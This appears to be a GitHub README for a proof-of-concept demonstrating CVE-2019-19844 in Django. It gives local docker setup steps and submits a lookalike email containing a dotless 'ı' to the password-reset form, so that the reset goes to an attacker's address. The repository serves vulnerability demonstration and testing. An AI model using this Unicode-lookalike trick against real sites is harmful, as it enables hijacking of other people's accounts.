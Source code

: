 # django_cve_2019_19844_poc

PoC for [CVE-2019-19844](https://www.djangoproject.com/weblog/2019/dec/18/security-releases/)

![](https://github.com/ryu22e/django_cve_2019_19844_poc/workflows/django_cve_2019_19844_poc/badge.svg)

## Setup

1. docker-compose run --service-ports web python manage.py migrate --no-input
2. docker-compose run --service-ports web python manage.py createsuperuser --email=me@0xsha.io --username 0xsha
3. Head on to localhost:8000/accounts/password-reset
4. me@0xsha.ıo and hit enter (Note that "i" is malformed)
5. Check the console
